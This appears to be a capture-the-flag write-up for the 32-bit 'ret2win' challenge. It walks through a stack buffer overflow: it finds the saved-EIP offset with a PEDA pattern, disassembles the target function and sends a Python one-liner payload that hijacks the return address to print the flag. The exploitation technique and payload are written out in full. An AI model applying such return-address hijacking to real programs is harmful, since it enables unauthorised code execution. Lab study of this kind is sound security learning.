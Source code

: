 The program will then print out it's registers, but the one of most importance is the EIP register.
```bash
EAX: 0xffffd290 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EBX: 0x0 
ECX: 0xf7faf87c --> 0x0 
EDX: 0xffffd290 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
ESI: 0x1 
EDI: 0xf7fae000 --> 0x1b2db0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd2c0 --> 0xf7fa0062 --> 0xe0a5210 
EIP: 0x41414641 ('AFAA')
```

Here we see it has a value of 0x41414641.  What's happened in execution is we've overwritten the saved EIP, and then the program has attempted to return back to that location in memory.  Since there's nothing there, it's thrown a segmentation fault.  we use `pattern offset 0x41414641` in PEDA, which tells us at what position that value was in our string.

```
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

Here we see it's at position 44.  So we want to write 44 bytes, and then write our return address into our input.

So we know from the description that we want to return into the ret2win function.  We'll have a quick look at the disassembly of this function to see what it's doing.

```gdb
;-- ret2win:
0x08048659      55             push ebp
0x0804865a      89e5           mov ebp, esp
0x0804865c      83ec08         sub esp, 8
0x0804865f      83ec0c         sub esp, 0xc
0x08048662      6824880408     push str.Thank_you__Here_s_your_flag: ; 0x8048824 ; "Thank you! Here's your flag:"
0x08048667      e894fdffff     call sym.imp.printf
0x0804866c      83c410         add esp, 0x10
0x0804866f      83ec0c         sub esp, 0xc
0x08048672      6841880408     push str.bin_cat_flag.txt   ; 0x8048841 ; "/bin/cat flag.txt"
0x08048677      e8b4fdffff     call sym.imp.system
0x0804867c      83c410         add esp, 0x10
0x0804867f      90             nop
0x08048680      c9             leave
0x08048681      c3             ret
```

It prints out the value of the flag we want.  Obviously, this is a controlled example but it does show how we can redirect into an alternative function.

By looking at the disassembly, we already know what location we want to return to (It's the location in memory we've disassembled, so 0x08048659), so now we just need to construct our payload, and send it into the program.  In this case we just overwrite EIP with the location of that function.

```bash
root@kali:~/Desktop# python -c 'print "A"*44 + "\x59\x86\x04\x08"'|./ret2win32
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer; 
What could possibly go wrong? 
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets! 
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!} 
Segmentation fault 
```
